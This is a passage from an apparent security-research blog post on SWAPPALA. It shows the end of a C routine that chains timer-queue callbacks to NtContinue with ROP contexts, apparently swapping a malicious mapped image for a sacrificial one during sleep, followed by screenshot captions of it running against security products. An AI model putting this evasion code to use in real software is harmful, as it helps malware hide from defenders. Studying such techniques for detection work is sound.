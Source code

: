 ```c
        CreateTimerQueueTimer(&hNewTimer, hTimerQueue, (WAITORTIMERCALLBACK)NtContinue, RopMapSac, 200, 0, WT_EXECUTEINTIMERTHREAD);
        CreateTimerQueueTimer(&hNewTimer, hTimerQueue, (WAITORTIMERCALLBACK)NtContinue, RopDelay, 300, 0, WT_EXECUTEINTIMERTHREAD);
        CreateTimerQueueTimer(&hNewTimer, hTimerQueue, (WAITORTIMERCALLBACK)NtContinue, RopUnmapSac, 400, 0, WT_EXECUTEINTIMERTHREAD);
        CreateTimerQueueTimer(&hNewTimer, hTimerQueue, (WAITORTIMERCALLBACK)NtContinue, RopMapMal, 500, 0, WT_EXECUTEINTIMERTHREAD);
        CreateTimerQueueTimer(&hNewTimer, hTimerQueue, (WAITORTIMERCALLBACK)NtContinue, RopSetEvt, 600, 0, WT_EXECUTEINTIMERTHREAD);

        WaitForSingleObject(hEvent, INFINITE);

    }

    DeleteTimerQueue(hTimerQueue);
    // Clean up allocated memory
    if (CtxThread) VirtualFree(CtxThread, 0, MEM_RELEASE);
    if (RopUnmapMal) VirtualFree(RopUnmapMal, 0, MEM_RELEASE);
    if (RopMapSac) VirtualFree(RopMapSac, 0, MEM_RELEASE);
    if (RopDelay) VirtualFree(RopDelay, 0, MEM_RELEASE);
    if (RopMapMal) VirtualFree(RopMapMal, 0, MEM_RELEASE);
    if (RopUnmapSac) VirtualFree(RopUnmapSac, 0, MEM_RELEASE);
    if (RopSetEvt) VirtualFree(RopSetEvt, 0, MEM_RELEASE);
    if (newStack) VirtualFree(newStack, 0, MEM_RELEASE);
    if (newStackMal) VirtualFree(newStackMal, 0, MEM_RELEASE);

    return;
}
```

So basically what I do here is to create a copy of the stack of the “timer’s thread” so that I can use it without having those threads stepping on each other. 

### Belli Screenshot Sequence

You can’t write a blog post without screenshot of at least one messagebox: 

{{< rawhtml >}}
<img src=/swappala/Untitled%201.png class="center">
{{< /rawhtml >}}

And SWAPPALA against some of the good guys

{{< rawhtml >}}
<img src=/swappala/Untitled%202.png class="center">
{{< /rawhtml >}}

even the scariest (jk jk)

{{< rawhtml >}}
<img src=/swappala/Untitled%203.png class="center">
{{< /rawhtml >}}
